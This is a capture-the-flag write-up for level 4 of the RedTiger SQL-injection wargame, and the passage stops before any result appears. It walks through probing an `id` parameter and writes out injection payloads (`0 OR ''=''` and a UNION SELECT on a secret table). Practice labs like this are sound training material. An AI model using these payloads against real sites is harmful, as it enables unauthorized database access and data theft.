 ## Level 4

**URL:** https://redtiger.labs.overthewire.org/level4.php
**Target:** Get the value of the first entry in table level4_secret in column keyword
**Disabled:** like

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502160745271.png" alt="image-20200502160745271" style="border:1px solid black;" />

Clicking on "Click me" sent the value 1 to the parameter `id`, presenting "Query returned 1 rows.":

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502161058260.png" alt="image-20200502161058260" style="border:1px solid black;" />

<center> ?id=1



Sending the parameter 0 presented "Query returned 1 rows.":

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502161248110.png" alt="image-20200502161248110" style="border:1px solid black;" />

<center>?id=0



I wrote down the possible SQL query, where `[id]` can be defined by me. I figured that the page presents the number of rows selected by this query:

```sql
SELECT ?,?,...  
FROM table_name 
WHERE id = [id];
```

I sent the value `0 OR ''=''` to perform the following query and get the number of rows in the table with the column "id":

```sql
SELECT ?,?,... 
FROM table_name 
WHERE id = 0 OR ''='';
```

The page presented "Query returned 1 rows.":

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502161817257.png" alt="image-20200502161817257" style="border:1px solid black;" />

<center> ?id=0%20OR%20%27%27=%27%27



I sent the value `0 UNION SELECT keyword FROM level4_secret` to perform the following query and get the number of rows in the table "level4_secret":

```sql
SELECT ?,?,...
FROM table_name 
WHERE id = 0 
UNION 
SELECT keyword 
FROM level4_secret;
```
